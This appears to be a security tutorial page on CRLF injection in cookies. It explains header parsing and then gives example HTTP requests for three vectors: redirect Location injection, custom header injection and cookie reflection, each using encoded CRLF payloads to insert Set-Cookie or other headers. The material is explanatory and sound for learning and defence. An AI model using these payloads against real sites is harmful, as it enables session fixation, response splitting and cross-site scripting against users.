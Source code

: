 # CRLF Injection in Cookies

CRLF (Carriage Return Line Feed) injection in cookie contexts occurs when attackers can manipulate HTTP headers to inject additional Set-Cookie directives or other headers. This vulnerability class is particularly dangerous as it can lead to session fixation, cache poisoning, and XSS.

## Technical Background

### CRLF Characters

```
CR (Carriage Return): \r (0x0D)
LF (Line Feed):       \n (0x0A)
CRLF sequence:        \r\n
```

### HTTP Header Parsing

HTTP headers are separated by CRLF sequences. When user input containing CRLF is included in HTTP headers, it can lead to:

1. **Header injection**
2. **Response splitting**
3. **Cache poisoning**
4. **Session fixation**

## Injection Vectors

### 1. Location Header Injection

```http
GET /redirect?url=https://attacker.com%0D%0ASet-Cookie:%20evil=value HTTP/1.1
Host: victim.com

# Server responds with:
HTTP/1.1 302 Found
Location: https://attacker.com
Set-Cookie: evil=value
```

### 2. Custom Header Injection

```http
GET /page HTTP/1.1
Host: victim.com
X-Custom-Header: value%0D%0ASet-Cookie:%20injected=test
```

### 3. Cookie Reflection

```http
GET /page HTTP/1.1
Host: victim.com
Cookie: test=value%0D%0AX-Injected:%20header

# If the cookie is reflected:
Set-Cookie: test=value
X-Injected: header
```

